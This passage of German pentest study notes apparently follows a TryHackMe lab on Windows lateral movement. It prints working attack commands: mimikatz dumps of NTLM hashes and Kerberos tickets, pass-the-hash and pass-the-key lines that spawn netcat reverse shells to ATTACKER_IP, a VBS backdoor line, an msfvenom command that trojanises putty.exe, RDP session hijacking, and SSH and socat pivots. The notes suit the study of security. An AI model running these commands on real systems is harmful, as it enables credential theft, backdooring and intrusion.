3. Der Client kombiniert sein NTLM Password Hash mit der Challenge  (und anderen bekannten Daten) und generiert ein "Response" welches er zurück an den Server schickt
4. Der Server leitet den Response, aber auch die Challenge an den Domain Controller weiter
5. Der DC berechnet aus der Challenge ebenfalls ein Response und vergleicht dieses mit dem Response, welches der Server weitergeleitet hat. Wenn beide Respsonse übereinstimmen, sendet er ein Allow Authentication zurück, ansonsten ein Deny Authentication
6. Der Server leitet die Antwort des DC an den Client weiter

**Der beschriebene Prozess findet nur Anwendung, wenn auch ein Domain Account genutzt wird. Wenn es sich um einen lokalen Account handelt, vergleicht der Server den Response zur Challenge mit seinem Password Hash, den er lokal in der SAM Datei gespeichert hat**

#### Pass-the-Hash

Wenn wir am Ende des Tages nur einen NTLM Hash aus dem System holen konnten, können wir auch diesen nutzen.

Wie auf dem Bild zusehen ist, wird auf die Challenge mit dem NTLM Hash geantwortet. Wir können also einfach den NTLM Hash übergeben und uns somit authenfizieren, wenn die Windows Domain entsprechend konfiguriert ist.

Um NTLM Hashes zu extrahieren nutzen wir bspw. mimikatz. Damit können wir die lokale SAM Datei auslesen oder die Hashes direkt aus dem LSASS Speicher lesen.

**Extracting NTLM hashes from local SAM**

Diese Methode erlaubt uns, nur hashes aus der lokalen Maschine zu extrahieren. Domain User Hashes sind nicht enthalten.

```bash
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # lsadump::sam   
RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 145e02c50333951f71d13c245d352b50
  ```

**Extracting NTLM hashes from LSASS memory**

Mit dieser Methode können wir alle NTLM Hashes extrahieren, lokale als auch domain user Hashes die sich jemals auf dieser Maschine authentifiert haben.

```bash
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # sekurlsa::msv 
Authentication Id : 0 ; 308124 (00000000:0004b39c)
Session           : RemoteInteractive from 2 
User Name         : bob.jenkins
Domain            : ZA
Logon Server      : THMDC
Logon Time        : 2022/04/22 09:55:02
SID               : S-1-5-21-3330634377-1326264276-632209373-4605
        msv :
         [00000003] Primary
         * Username : bob.jenkins
         * Domain   : ZA
         * NTLM     : 6b4a57f67805a663c818106dc0648484
```

Mit den extrahierten Hashes können wir nun eine Pass-the-Hash Attacke ausführen. Dazu nutzen wir mimikatz, um einen access token des Users zu injezieren, von dem wir den Hash besitzen.

```bash
mimikatz # token::revert
mimikatz # sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555"
```

**Achtung: Wir führen token::revert aus um unseren ursprünglichen token mit den entsprechenden Privilegien zu nutzen. Pass-the-Hash funktioniert nicht mit privilege::debug. Das ist ein Equivalent zu runas /neonly aber mit einem Hash anstatt eines Passworts, was uns eine neue Reverse Shell erstellt von der aus wir jeden Befehl auf dem Zielrechner ausführen können.**

Um eine Reverse Shell zu bekommen führen wir folgendes aus:

>nc -lvnp 5555

**Interessanterweise wird uns mit whoami immernoch unserer ursprünglicher User angezeigt, dennoch wird jeder Befehl mit den Credentials des Users ausgeführt, die wir per Pass-the-Hash injeziert haben**

#### Pass-the-Hash in LINUX

Wenn du mit einer Linux Maschine angreifst, hast du bereits Tools an Board, mit denen du Pass-the-Hash ganz easy ausführen kannst:

- Connect to RDP using PtH:

>xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH
- Connect via psexec using PtH:

>psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP
**Note: Only the linux version of psexec support PtH.**

- Connect to WinRM using PtH:

>evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH

### Kerberos Authentication

Schauen wir uns mal die Kerbers Authentication an:
1. 

Folgede Dinge sendet der User an das Key Distributions Center (KDC) um ein TGT Ticket anzufragen:
    - Seinen Usernamen
    - Einen Zeitstempel. Dieser Zeitstempel ist mit einem Schlüssel verschlüsselt, der sich aus dem Password des Users ergibt (User Hash)

Der KDC erstellt ein Ticket Granting Ticket (TGT) und erlaubt dem User somit, Tickets für besimmte Services anzufragen, ohne sich bei diesen Services mit seinen Zugangsdaten anzumelden. Zusammen mit dem TGT kommt auch des **Session Key** mit dem nachfolgende Requests generieren kann.

**Achtung: Das TGT ist mit dem Password Hash des krbtgt Accounts verschlüsselt, womit der User keinen Zugriff auf den Inhalt des TGT erhält. Es ist sehr wichtig zu verstehen, dass das verschlüsselte TGT ebenfalls eine Kopie des Session Key enthält. Somit muss der KDC keinen Session Key speichern, da er diesen einfach aus dem TGT wiederherstellen kann**

2. 

Möchte ein User einen Service nutzen wie bspw. ein Network Share oder eine Datenbank, nimmt er sein TGT und fragt damit beim KDC ein sogennantes Ticket Granting Service (TGS) Ticket an. Diese Tickets sind nur dafür da, Zugriff nur auf den Service zu gewähren, für den sie erstellt wurden. Will der User so ein TGS anfragen, sendet er diesmal folgende Dinge an den KDC:

- Seinen Usernamen und einen Zeitstempel, beides verschlüsselt mit dem Session Key
- Sein TGT natürlich
- Den Service Principal Name (SPN) welcher den Service und den Server beinhaltet, auf welchen man Zugriff möchte

Als Antwort auf diese Anfrage schickt der KDC zwei Dinge zurück:

- Den Service Session Key, der mit dem Session Key verschlüsselt ist.
- Das TGS, das mit dem Service Owner Hash verschlüsselt ist. Service Owner ist der User bzw. Maschinen Account, unter dem der Service läuft. Auch das TGS enthaält eine Kopie des Service Session Key, sodass der Service Owner ebenfalls zugriff auf diesen erhält, nachdem er das TGS mit seinem Service Owner Hash entschlüsselt hat.

3. 

Das TGS Ticket wird nun an den Service geschickt, auf den man zugreifen möchte. Der Service entschlüsselt das TGS und validiert den Service Session Key, mit dem Username und zeitstempel bei der Anfrage verschlüsselt wurden.

### Pass-the-Ticket

Manchmal ist es möglich, Kerberos Tickets und Session Keys aus dem LSASS Memory zu extrahieren. Dieser Vorgang benötigt ind er Regel SYSTEM Rechte auf der Maschine. Folgende Befehle werden ausgeführt:

```bash
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```

**Achtung: Wenn wir nur Zugriff auf ein Ticket haben, aber nicht auf den dazugehörigen Session Key, können wir das Ticket nicht nutzen. Beide Dinge sind nötig**

Mimikatz kann im Prinzip jedes TGT oder TGS welches im Speicher des LSASS Prozesses befindet extrahieren, aber meistens interessieren uns TGT´s mit denen wir Zugang zu Services erhalten, zu denen der User berechtigt ist. Gleichzeitig sind TGS´s nur für besitmmte Service gut. Zum extrahieren von TGT´s benötigen wir Admin Zugangsdaten, bei TGS´s reichen schon Low-Privilege Accounts.

Sobald wir das gewünschte Ticket haben, können wir es in unsere aktuelle Session injezieren.

>mimikatz # kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi

Um Tickets in unsere eigene Session zu injezieren, benötigen wir keine Administrationsrechte. Danach steht das Ticket für jedes Tool zur Verfügung, mit dem wir Lateral Movement betreiben können. Um zu checken, ob das injezierte Ticket auch richtig funktioniert, können wir *klist* ausführen:

```bash
za\bob.jenkins@THMJMP2 C:\> klist

Current LogonId is 0:0x1e43562

Cached Tickets: (1)

#0>     Client: Administrator @ ZA.TRYHACKME.COM
        Server: krbtgt/ZA.TRYHACKME.COM @ ZA.TRYHACKME.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 4/12/2022 0:28:35 (local)
        End Time:   4/12/2022 10:28:35 (local)
        Renew Time: 4/23/2022 0:28:35 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: THMDC.za.tryhackme.com
```

### Overpass-the-Hash / Pass-the-Key

Diese Art von Attacke ist ähnlich Pass-the-Hash, allerdings auf das Kerberos Netzwerk angewendet.

Wenn ein Benutzer ein TGT anfragt, sendet dieser ja einen Zeitstempel verschlüsselt mit dem Schlüssel der sich aus seinem Passwort ergibt. Der Algorithmus der diesen Schlüssel aus dem Passwort ableitet ist entweder DES (bei aktuellen Windows Systemen standardmäßig deaktiviert), RC4, AES128 oder AES256, je nach installierter Windows Version und Kerberos Konfiguration. Wenn wir einen solchen Schlüssel besitzen, können wir bei KDC ein TGT anfragen ohne das aktuelle Passwort zu kennen. Das ist die Pass-the-Key Attacke. 

Wir können die Kerberos Verschlüsselungschlüssel mit Hilfe von Mimikatz aus dem Speicher laden:

```bash
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys
```

Mimikatz bietet die Möglichkeit, eine Reverse Shell (Netcat muss natürlich schon vorhanden sein) via Pass-the-Key herzustellen:

**If we have the RC4 hash:**

```bash 
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe 
ATTACKER_IP 5556"
```

**If we have the AES128 hash:**

```bash
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

**If we have the AES256 hash:**

```bash
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

**Achtung: Wenn wir RC4 nutzen, ist der Key gleich dem NTLM Hash des Users. Das bedeutet, wenn wir den NTLM Hash extrahieren können, können wir damit auch ein TGT anfragen, solange RC4 ein aktiviertes Protokoll ist. Diese Variante wird als Overpass-the-Hash bezeichnet**

Bevor wir die oberen Befehle ausführen, starten wir einen Listener auf unserer Maschine:

>nc -lvnp 5556

Genau wie bei Pass-the-Hash werden alle Befehle, die aus dieser Shell kommen mit den Credentials ausgeführt, die in Mimikatz injeziert wurden.

Auf der neuen Shell führen wir einfach folgendes aus:

>winrs.exe -r:THMIIS.za.tryhackme.com cmd

#### Damit haben wir dieses Kapitel abgeschlossen


# Abusing User Behaviour

Unter gewissen Umständen kann ein Attacker Aktionen von Benutzern ausnutzen um sich weiter im Netzwerk auszudehnen. Dafür gibt es viele Möglichkeiten, wir konzentrieren uns hier aber auf die häufigsten.

### Abusing Writable Shares

Es ist häufig so, dass man Network Shares findet, die von Nutzern für alltägliche Aufgaben genutzt werden. Wenn diese Shares aus verschiedenen Gründen "Writeable" sind, könnte ein Attacker bestimmte Dateien platzieren und User dazu bringen, schädlichen Code auszuführen um so Zugriff auf den Rechner des Users zu bekommen.

Ein bekanntes Szenario wäre, wenn wir ein Shortcut zu einem Script oder einer ausführbaren Datei in so einem Share finden.



Der Grund für so einen Fund wäre bspw. dass ein Admin diese ausführbare Datei dort platziert und von den Usern im Netzwerk ausgeführt werden kann, ohne dass jeder User diese Datei auf seinem Rechner haben muss. Wenn wir auf dieser Datei Schreibrechte haben, können wir dort eine Backdoor platzieren und jeden Payload ausführen lassen, den wir möchten. 

Ausserdem wird jedes Script oder Programm dass von Share aus gestartet wird auch in den %temp% Ordner des jeweiligen Benutzers kopiert. Also wird jeder Payload in diesem Kontext gestartet. 

### Backdooring .vbs Scripts

Als Beispiel nehmen wir ein VBS Script, dass sich in einem entsprechenden Netzwerkshare befindet. Ausserdem platzieren wir eine Kopie von nc64 in dem gleichen Ordner und platzieren folgenden Code im shared Script:

```bash
CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234", 0, True
```

Dieser Befehl würde nc64.exe aus dem Netzwerkshare in den %temp% Ordner des Users kopieren und eine Reverseshell zurück zum Attacker senden, wenn der User das VBS Script ausführt.


### Backdooring .exe Files

Wenn die Datei eine Windows Binary ist, bspw. Putty, können wir es Downloaden und mit MSFvenom nutzen, um eine Backdoor zu injezieren. Das Binary würde wie gewohnt funktionieren, aber jedesmal unseren Payload im Hintergrund ausführen. Um eine Backdoor in die Putty.exe zu injezieren geben wir folgendes ein:

```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe
```

Die herauskommende PuttyX.exe würde jedesmal einen reverse_tcp meterpreter Payload ausführen, ohne das der User das merkt. 

### RDP hijacking

Wenn ein Admin Remote Desktop nutzt um sich auf einer Maschine einzuloggen und den RDP Client einfach nur schließt und sich nicht vorher ausloggt, bleibt seine Session auf dem Server erstmal bestehen. Wenn wir SYSTEM Rechte auf einem Windows 2016 Server oder früheren Versionen haben, können wir jede bestehende RDP Session übernehmen, ohne auch nur ein Passwort zu kennen.

Wenn wir administrativen Zugang haben, können wir jede gewünschte Methode nutzen, um SYSTEM Rechte zu erlangen. Wir nutzen jetzt PSEXEC. Als erstes starten wir cmd.exe als Admin.



Von da aus, starten wir PsExec64.exe aus dem Ordner C:\tools\ heraus.

>PsExec64.exe -s cmd.exe

Um sich alle existierenden Sessions auf dem Server anzeigen zu lassen, nutzen wir folgenden Befehl:

```bash
C:\> query user
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>administrator         rdp-tcp#6           2  Active          .  4/1/2022 4:09 AM
 luke                                    3  Disc            .  4/6/2022 6:51 AM
 ```

 Ausgehend aus dem Output, wenn wir jetzt per RDP als Admin verbunden wären, wäre unser Sessionname *rdp-tcp#6*. Wir können außerdem sehen, dass der User mit dem Namen luke eine Session mit der ID 3 offen hat. Jede Session mit dem Status Disc wurde offen gelassen und ist nicht in Benutzung. Wenn wir eine Session übernehmen, wird der aktuelle User aus seiner Session geworfen, was etwas suspekt sein könnte.

 Um sich mit einer Session zu verbinden nutzen wir tscon.exe und geben die Session ID mit an, die wir übernehmen möchten. In dem Beispiel oben wäre des Befehl also:

 >tscon 3 /dest:rdp-tcp#6

 Im Grunde besagt der Command, dass die grafische Session 3 von luke mit der RDP Session rdp-tcp#6 verbunden werden soll.

 Als Ergebnis erhalten wir lukes Session.

 **Achtung: Windows Server 2019 lässt keine Verbindung zu einer Session zu, ohne das Passwort zu kennen**


# Port Forwarding

Die meisten Methoden die wir bisher kennengelernt haben um sich lateral im Netzwerk zu bewegen benöigen spezielle Ports. In echten Netzwerken sind die Ports meistens aus Sicherheitsgründen geblockt. Oder die Netzwerke sind segmentiert, was uns daran hindert, SMB, RDP, WINRM oder RPC Ports zu nutzen.

Um diese Einschränkungen zu umgehen, können wir Port Forwarding Techniken anwenden. Das bedeutet, wir nutzen einen kompromittierten Rechner als eine Jump Box um andere Hosts zu erreichen.Es ist zu erwarten, dass manche Computer mehr Rechte als andere im Netzwerk haben, da jede Abteilung unterschiedliche Anforderungen stellt, was Services angeht, die genutzt werden müssen.

### SSH Tunneling

Das erste Protokoll welches wir uns ansehen ist SSH, da es bereits eingebaute Port Forwarding Mechanismen enthält (SSH Tunneling). Bisher galt SSH als ein Protokoll, welches hauptsächlich in Linux System genutzt wurde. Doch Windows liefert mittlerweile mit OpenSSH ebenfalls einen SSH Clienten standardmäßig mit aus.

SSH Tunneling kann auf verschiedene Arten zum weiterleiten von Ports durch eine SSH Verbindung genutzt werden, je nach Anwendungsfall. Um die Anwendungsfälle zu erklären, nehmen wir einfach mal an, wir hätten Zugang zu dem Computer PC-1 (ein Admin Zugang ist nicht zwingend nötig) den wir als Pivot nutzen möchten, um einen Port auf einer anderen Maschine nutzen zu können, welchen wir nicht direkt erreichen können. 
Wir starten einen Tunnel von dem Computer PC-1, der sich als einen SSH Client ausgibt, zu unserer Attacker Maschine, welche sich als ein SSH Server ausgibt. Der Grund für diese Vorgehensweise ist der Umstand, dass man auf Windows System zwar oft einen SSH Client findet, aber keinen SSH Server.

Die Grafik zeigt das Konzept nochmal deutlich:



Sobald wir eine Verbdinung zurück zu unserer Maschine herstellen wollen, müssen wir einen User erstellen, der allerdings keinen Zugang zu einer Konsole hat und ein Password bestitzt um die Tunnel zu erstellen.

```bash
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
```

Je nachdem welche Anforderungen man braucht, kann der SSH Tunnel lokales und remote Ports weiterleiten. Wir schauen uns beide Fälle mal an.

### SSH Remote Port Forwarding

In unserem Beispiel gehen wir davon aus, dass unsere Attacke Maschine keinen Zugriff auf Port 3389 auf dem Server hat, da eine Firewall den Zugang blockiert. Wenn wir den PC-1 Computer übernommen haben, und dieser auf Port 3389 am Server zugreifen kann, können wir diesen als Pivot nutzen. Mit Remote Port Forwarding können wir einen erreichbaren Port vom SSH Client (also PC-1) nehmen und auf einen remote SSH Server projezieren (unsere Attacker Maschine).

Als Ergebnis wird ein Port auf der Attacker Maschine geöffnet welcher dazu benutzt wird, eine Verbindung zurück zum Port 3389 durch den SSH Tunnel auf dem Server herzustellen. PC-1 wird die Verbindung stellvertretend herstellen und für den Server sieht es dann so aus, als würde der Traffic einfach von PC-1 stammen.

Es mag eine berechtigte Frage auftauchen. Wenn wir doch sowieso die Maschine PC-1 kompromettiert haben können wir doch direkt mit einer RDP Session diese nutzen um auf Port 3389 auf dem Server zuzugreifen. Die Antwort ist simpel. In einer Situation in der wir nur Zugang per Konsole auf PC-1 haben, sind wir nicht in der Lage einen RDP Client zu nutzen da wir kein GUI haben.
Indem wir den Port für unsere Attacker Maschine erreichbar machen, können wir auch das Linux RDP nutzen. 
Ähnliche Situationen haben wir auch, wenn wir bestimmte Exploits nutzen möchten, aber der gewünschte Port ist nicht erreichbar, oder der Exploit benötigt eine besimmte Programmiersprache die nicht auf den Maschinen vorhanden sind, die wir kompromittieren. Man ist also deutlich besser aufgestellt, wenn man die Ports an unserer Attacker Maschine bereitsstellt.

Im Bezug zu dem Bild von oben, können wir den Port 3389 mit folgendem Befehl den wir auf PC-1 ausführen, verfügbar machen:

>C:\> ssh tunneluser@1.1.1.1 -R 3389:3.3.3.3:3389 -N

Damit stellen wir eine SSH Session von PC-1 zu 1.1.1.1 (Unsere Attacker Maschine) her und nutzen dabei den "tunneluser" user.

Da der "tunneluser" nicht in der Lage ist eine Shell auf der Attacker Maschine zu starten, müssen wir den SSH Befehl mit dem -N Switch ausführen. Das hindert den Client daran, eine Shell anzufordern, was die Verbindung wieder sofort beenden würde. Der -R Switch wird benutzt, um einen Remote Port Forward anzufragen. Die Syntax verlangt von uns, erst den Port anzugeben, der auf unserer Maschine (SSH Server) geöffnet werden soll, gefolgt von einem Semikolon mit anschließender IP und Port des Sockets den wir weiterleiten möchten (3.3.3.3:3389). In diesem Beispiel stimmen die Ports überein, was aber nicht zwingend notwendig ist.

Der Befehl selber würde keinen Output ausgeben, aber der Tunnel ist anhängig vom ausführen dieses Befehls. Wenn wir den Befehl mit CTRL+C abbrechen, schließen wir auch den Tunnel.

Sobald der Tunnel offen ist, können wir mit unserer Attacker Maschine eine RDP Verbindung zu dem Server über den Port herstellen.

>munra@attacker-pc$ xfreerdp /v:127.0.0.1 /u:MyUser /p:MyPassword

### SSH Local Port Forwarding

Local Port Forwarding erlaubt uns einen Port from SSH Server auf den SSH Client zu ziehen. In unserem Szenario könnte das zum Beispiel bedeuten, dass wir einen Service auf unserer Maschine bereitstellen und diesen am PC-1 Computer verfügbar machen. Damit kann jeder Host, der sich nicht direkt mit uns verbinden kann, dennoch unseren Service über PC-1 erreichen.

Mit dieser Art der Port Weiterleitung können wir auf Hosts Reverse Shells ausführen, die normalerweise keine Verbindung zu uns aufbauen könnten.



Um den Port 80 von uns aus auf dem PC-1 weiterzuleiten, müssen wir folgenden Befehl ausführen:

> C:\\> ssh tunneluser@1.1.1.1 -L *:80:127.0.0.1:80 -N

Die Befehlsstruktur ist ähnlich der "Remote Port Forwarding" aber nutzt -L für das lokale Weiterleiten. 
Diese Option erfordert, dass wir den lokalen Socket angeben, den PC-1 verwendet, um Verbindungen zu empfangen (*:80), sowie den Remote-Socket, zu dem von der Perspektive des Angreifer-PCs aus eine Verbindung hergestellt wird (127.0.0.1:80).

**Achtung: Wir nutzen die IP Adresse 127.0.0.1 im zweiten Socket, da aus der Sicht des Attacker PC´s dies der Host ist, der Port 80 zur Weiterleitung bereitstellt.**

Da wir einen neuen Port auf PC-1 öffnen, müssen wir möglicherweise eine Firewall-Regel hinzufügen, um eingehende Verbindungen zuzulassen (mit dir=in). Administrative Berechtigungen sind dafür erforderlich.

>netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80


Sobald der Tunnel eingerichtet ist, kann jeder Benutzer, der mit seinen Browser  PC-1 unter http://2.2.2.2:80 besucht, die Website sehen, die von der Angreifer-Maschine veröffentlicht wurde.

### Port Forwarding with socat

In Situationen, in denen SSH nicht verfügbar ist, kann socat verwendet werden, um ähnliche Funktionalitäten auszuführen. Obwohl socat nicht so flexibel wie SSH ist, ermöglicht es Ports auf eine viel einfachere Weise weiterzuleiten. Ein Nachteil bei der Verwendung von socat besteht darin, dass wir es zum Pivot-Host (PC-1 in unserem aktuellen Beispiel) irgendwie übertragen müssen, was es im Vergleich zu SSH leichter erkennbar macht. Dennoch könnte es sich lohnen, es zu versuchen, wenn keine andere Option verfügbar ist.

Die grundlegende Syntax zur Durchführung von Port-Weiterleitung mit socat ist wesentlich einfacher. Wenn wir beispielsweise Port 1234 auf einem Host öffnen und alle Verbindungen, die wir dort erhalten, an Port 4321 auf Host 1.1.1.1 weiterleiten möchten, würde der folgende Befehl verwendet werden:

>socat TCP4-LISTEN:1234,fork TCP4:1.1.1.1:4321

Die Option "fork" ermöglicht es socat, für jede empfangene Verbindung einen neuen Prozess zu starten, was es ermöglicht, mehrere Verbindungen zu erstellen. Wenn wir fork nicht mit angeben, wird socat geschlossen, wenn die erste Verbindung beendet ist.

Zurück zu unserem Beispiel, wenn wir auf den Port 3389 des Servers zugreifen möchten, indem wir PC-1 als Pivot verwenden, wie wir es mit der SSH Remote-Port-Weiterleitung getan haben, könnten wir den folgenden Befehl verwenden:

>C:\\>socat TCP4-LISTEN:3389,fork TCP4:3.3.3.3:3389

**Achtung: socat kann die Verbindung nicht direkt zur Angreifer-Maschine weiterleiten wie SSH, sondern einen Port auf PC-1 wird geöffnet, zu dem die Angreifer-Maschine dann eine Verbindung herstellen kann:**



Wie üblich, da ein Port auf dem Pivot-Host geöffnet wird, müssen wir möglicherweise eine Firewall-Regel erstellen, um Verbindungen zu diesem Port zuzulassen:

>netsh advfirewall firewall add rule name="Open Port 3389" dir=in action=allow protocol=TCP localport=3389


Wenn wir andererseits den Port 80 von der Angreifer-Maschine freigeben möchten, damit er vom Server erreicht werden kann, müssen wir den Befehl nur ein wenig anpassen:

>C:\\>socat TCP4-LISTEN:80,fork TCP4:1.1.1.1:80

Als Ergebnis wird PC-1 den Port 80 erstellen und auf Verbindungen warten, die zum Port 80 auf der Angreifer-Maschine weitergeleitet werden sollen:

